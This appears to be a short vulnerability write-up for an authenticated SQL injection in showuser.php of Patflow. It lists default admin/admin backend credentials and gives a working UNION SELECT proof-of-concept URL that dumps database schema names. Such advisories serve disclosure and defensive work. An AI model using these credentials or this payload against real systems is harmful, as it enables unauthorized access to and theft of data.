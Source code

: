 # Patflow showuser.php Background SQL injection vulnerability

## Vulnerability Description

Patflow showuser.php file parameter filtering is insufficient, resulting in SQL injection vulnerability in the background

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Baizhu Patflow</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204721988.png)



Default password login to the background admin/admin

The file with vulnerability is shwouser.php, verify that the POC is

```plain
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20from%20information_schema.SCHEMATA),23
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210723103203935.png)
